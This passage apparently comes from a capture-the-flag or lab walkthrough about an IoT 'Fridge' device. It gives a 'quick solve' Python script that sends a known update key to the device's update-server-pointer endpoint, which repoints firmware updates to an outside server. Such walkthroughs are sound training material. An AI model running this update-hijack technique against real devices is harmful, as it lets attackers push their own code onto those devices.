![](./img/c58-image47.png)

Recheck the device stats at `http://10.3.3.40`.

![](./img/c58-image48.png)

We are now running at version 02.7. --like Fridge 2.

### Quick Solve Method
>For a "quick solve", start here. "Quick solve" assumes you've done nothing else prior to affect the expected output of the code given below.

The script below will work if you havent made any attempts to update the devices version. 

If you have already attempted updates, you should see that the `update_key` rotates. Please `refer to ~line 554`. This is the beginning of the section that explains how the `update_key` rotates and will explain how you can determine the next expected key to use in the script below. 

Run this script on any Kali system:

```python
#!/usr/bin/python3

import os, sys, requests, json

data = {
    "update_key": "a61Z5A",
    "server_url":"179.77.202.10",
    "server_port":"28572",
    "device_endpoint":"fridge"
}

resp2 = requests.post("http://10.3.3.40/update-server-pointer",json=data, headers={"Content-Type":"application/json"})

rec = resp2.content.decode("utf-8")

print(json.dumps(json.loads(rec),indent=2))
```
